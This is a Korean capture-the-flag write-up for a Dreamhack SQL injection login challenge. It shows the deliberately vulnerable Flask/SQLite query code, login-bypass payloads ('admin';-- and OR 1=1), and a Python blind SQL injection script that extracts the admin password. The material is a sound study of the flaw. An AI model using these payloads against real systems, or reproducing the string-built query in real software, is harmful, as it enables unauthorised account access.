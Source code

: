 ```yaml
---
slug: simple_sqli
title: "simple-sqli"
description: "로그인 서비스에서 SQL INJECTION 취약점을 통해 플래그를 획득해라"
author: oxahex
createdAt: 2024-06-01
tags: ["wargame"]
---
```


## 문제 설명
[24](https://dreamhack.io/wargame/challenges/24)

로그인 서비스입니다.

SQL INJECTION 취약점을 통해 플래그를 획득하세요. 플래그는 `flag.txt`, FLAG 변수에 있습니다.


## 정보
`POST /login` 요청 시 HTTP Request와 Response는 다음과 같다.

![](img/01.png)

유저로부터 `userid`, `userpassword` 값을 입력 받아 서버로 전송한다.

서버 측에서 실행되는 코드는 다음과 같다.

서버 구동 시 아래 DDL을 실행해 `users` 테이블에 초기값을 밀어 넣는다.

```python
DATABASE = "database.db"
if os.path.exists(DATABASE) == False:
    db = sqlite3.connect(DATABASE)
    db.execute('create table users(userid char(100), userpassword char(100));')
    db.execute(f'insert into users(userid, userpassword) values ("guest", "guest"), ("admin", "{binascii.hexlify(os.urandom(16)).decode("utf8")}");')
    db.commit()
    db.close()
```

`POST /login` 요청 시 다음 코드가 동작한다.

```python
@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    else:
        userid = request.form.get('userid')
        userpassword = request.form.get('userpassword')
        res = query_db(f'select * from users where userid="{userid}" and userpassword="{userpassword}"')
        if res:
            userid = res[0]
            if userid == 'admin':
                return f'hello {userid} flag is {FLAG}'
            return f'<script>alert("hello {userid}");history.go(-1);</script>'
        return '<script>alert("wrong");history.go(-1);</script>'
```

`userid`, `userpassword` 값은 그대로 DB 쿼리문을 생성하는 데 사용된다.

`query_db()` 함수는 다음과 같다.

```python
def query_db(query, one=True):
    cur = get_db().execute(query)
    rv = cur.fetchall()
    cur.close()
    return (rv[0] if rv else None) if one else rv
```

DB 커넥션을 얻어와 쿼리를 실행하고, 그 결과를 반환한다. `POST /login`으로 HTTP 요청 시 WHERE 절 이하의 조건과 일치하는 모든 행을 조회하고, 쿼리 결과의 첫 번째 행을 반환한다.

따라서 입력으로 받은 `userid`와 `userpassword`의 값이 일치하는 경우 해당 유저는 로그인 처리된다.


## 취약점
유저의 입력으로 받은 값을 그대로 이용해 SQL을 생성하고, 생성된 SQL을 그대로 사용해 DB에 질의하므로 유저 입력으로 인해 SQL이 손상될 가능성이 있다.


## 풀이
두 가지 방법을 생각해볼 수 있다. 로그인 자체를 우회하는 방법과 admin 계정의 비밀번호를 알아내 로그인하는 방법이 가능하다.

먼저 로그인 자체를 우회하는 방법은 다음과 같다.

WHERE 절 이하의 조건을 만족하는 테이블 로우를 조회할 수 있으므로 아래와 같은 SQL을 쿼리하면 `userid == 'admin'`인 로우를 조회할 수 있다.

```python
res = query_db(f'select * from users where userid="{userid}" and userpassword="{userpassword}"')
```
```sql
SELECT * FROM users WHERE userid = 'admin';
```

SQL WHERE 절의 두번째 조건을 무효처리 되도록 `userid`의 입력값을 조작했다.

```sql
SELECT * FROM users WHERE userid = 'admin'; -- AND userpassword = '';
```
```python
res = query_db(f'select * from users where userid="admin";--" and userpassword=""')
```

두 번째 조건이 무효 처리되도록 하는 방법 외에도 OR 조건을 추가해 WHERE 절을 참으로 만들 수도 있다.

```sql
SELECT * FROM users WHERE userid = 'admin' OR 1 = 1 AND userpassword='pw';
```
```python
res = query_db(f'select * from users where userid="admin" or "1" = "1" and userpassword="pw"')
```

다른 방법은 Blind SQL Injection 공격을 수행해 admin 유저의 실제 비밀번호 값을 알아내 로그인하는 것이다. DB의 인코딩 방식이 ASCII일 때는 128개의 문자에 대해서만 탐색하면 된다. 만약 인코딩이 UTF-8이라면 가용한 문자 집합이 더 크기 때문에 단순히 브루트 포스 방식으로는 어려울 수 있다.

인쇄 가능한 문자 범위는 32 - 126이다. 총 94개의 문자가 비밀번호의 각 자리에 들어갈 수 있다. 시도해야 하는 공격 횟수는 비밀번호 자릿수는 `94^자릿수`에 해당하므로 admin 계정의 비밀번호의 실제 자릿수를 우선 알아낸 다음 Blind SQL Injection을 시도한다.

```python
import requests

class BlindSQLi:

    #initialization
    def __init__(self, port: str) -> None:
        self._url = f"http://host3.dreamhack.games:{port}/login"

    # Base HTTP Methods
    def _login(self, userid:  str, userpassword: str) -> bool:
        login_data = {
            "userid": userid,
            "userpassword": userpassword
        }
        res = requests.post(self._url, data=login_data)
        return res

    # SQLi Method
    def _sqli(self, query: str) -> requests.Response:
        res = self._login(f'" or {query}-- ', "x")      # 로그인 form 입력값
        return res

    # Find Password Length
    def _binary_search(self, query_base: str, start: int, end: int) -> int:
        while 1:
            mid = (start + end) // 2
            if start + 1 >= end:
                break
            query = query_base.format(value = mid)
            print(query)
            if "hello" in self._sqli(query).text:
                end = mid
            else:
                start = mid

        return mid

    # Get Password Length
    def _find_password_length(self, user: str, max_length: int = 100) -> int:
        query = f'((SELECT LENGTH(userpassword) WHERE userid="{user}") < {{value}})'
        pw_lenfth = self._binary_search(query, 0, max_length)
        return pw_lenfth

    def _find_password(self, user: str, pw_length: int) -> str:
        pw = ""
        for idx in range(1, pw_length + 1):
            query_base = f'(SELECT SUBSTR(userpassword, {idx}, 1) WHERE userid="{user}") < CHAR({{value}})'
            pw += chr(self._binary_search(query_base, 32, 126))
            print(f"{idx}: {pw}")

    def attack(self) -> None:
        # Get Password Length
        pw_length = self._find_password_length("admin")
        print(f"Admin Password Length: {pw_length}")

        # Attack Bline SQLi
        pw = self._find_password("admin", pw_length)
        print(f"Admin Password: {pw}")


if __name__ == "__main__":
    port = "21630"	# PORT
    bsqli = BlindSQLi(port)
    bsqli.attack()
```
